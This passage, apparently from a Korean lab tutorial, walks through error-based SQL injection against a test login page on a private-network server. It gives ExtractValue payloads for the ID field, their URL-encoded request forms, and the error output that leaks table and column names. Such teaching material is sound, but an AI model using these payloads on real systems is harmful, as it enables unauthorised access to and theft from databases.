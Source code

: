 에러 메세지에 사용하고 있는 데이터베이스의 테이블 이름을 출력하도록 유도해보자.

데이터베이스의 테이블은 2개 이상일 수 있으니 LIMIT으로 1개씩 출력한다.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="test" LIMIT 0,1)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+TABLE_NAME+FROM+information_schema.TABLES+WHERE+table_schema%3D%22test%22+LIMIT+0%2C1%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: '::user'

## **칼럼 이름 확인**

에러 메세지에 사용하고 있는 데이터베이스의 칼럼의 수를 출력하도록 유도해보자.

user 테이블은 mysql 데이터베이스의 기본 테이블에도 속해 있어 TABLE_SCHEMA를 조건에 걸어 확실하게 원하는 테이블의 칼럼 정보를 획득한다.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COUNT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_NAME="user" AND TABLE_SCHEMA="test")))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COUNT%28COLUMN_NAME%29+FROM+information_schema.COLUMNS+WHERE+TABLE_NAME%3D%22user%22+AND+TABLE_SCHEMA%3D%22test%22%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':2'

LIMIT 0,1로 첫번째 칼럼 이름을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME="user" AND TABLE_SCHEMA="test" LIMIT 0,1)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COLUMN_NAME+FROM+information_schema.COLUMNS+WHERE+TABLE_NAME%3D%22user%22+AND+TABLE_SCHEMA%3D%22test%22+LIMIT+0%2C1%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':id'

LIMIT 1,1로 두번째 칼럼 이름을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME="user" AND TABLE_SCHEMA="test" LIMIT 1,1)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COLUMN_NAME+FROM+information_schema.COLUMNS+WHERE+TABLE_NAME%3D%22user%22+AND+TABLE_SCHEMA%3D%22test%22+LIMIT+1%2C1%29%29%29%23&password=123 |
